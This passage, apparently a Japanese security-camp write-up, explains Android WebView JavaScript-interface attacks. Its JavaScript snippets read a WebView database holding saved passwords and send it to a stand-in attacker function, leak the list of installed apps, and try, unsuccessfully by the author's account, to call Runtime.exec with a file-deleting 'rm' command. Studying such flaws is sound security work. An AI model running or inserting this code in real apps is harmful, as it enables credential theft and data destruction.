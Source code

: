 ```javascript
// このアプリのパッケージが com.example.lambdasawa.seccamp だと仮定して、
// /data/data/com.example.lambdasawa.seccamp/databases/webview.db を外部のサーバに送信する例。
// このファイルには WebView で保存したパスワードなどが平文で保存されている。
var file =
  "file:///data/data/com.example.lambdasawa.seccamp/databases/webview.db";
var xhr = new XMLHttpRequest();
xhr.open("GET", file, false);
xhr.send(null);
var cache = xhr.responseText;
sendDataToServerOfAtaccker(cache);
```

また、下記のような JavaScript を実行させることで、インストール済みのアプリ一覧を漏洩させることが出来ます。

```javascript
var ia = android.getPackageManager().getInstalledApplications(9344);
var apps = [];
for (var x = 0; x < ia.size(); x++) {
  sendDataToServerOfAtaccker(ia.get(x));
}
```

他にもリフレクションを経由して java.lang.Runtime を取得し、
exec メソッドを呼び出すことで OS コマンドインジェクションが出来るのではないかと考えました。
しかし、下記のコードでは上手くいかず、実際にコマンドを注入させる方法は分かりませんでした。

```javascript
var command =
  "rm /data/data/com.example.lambdasawa.seccamp/files/critical_data";
var class_ = android.getClass();
var runtimeClass = class_.forName("java.lang.Runtime");
var runtime = runtimeClass.getRuntime();
runtime.exec(command, null, null);
```
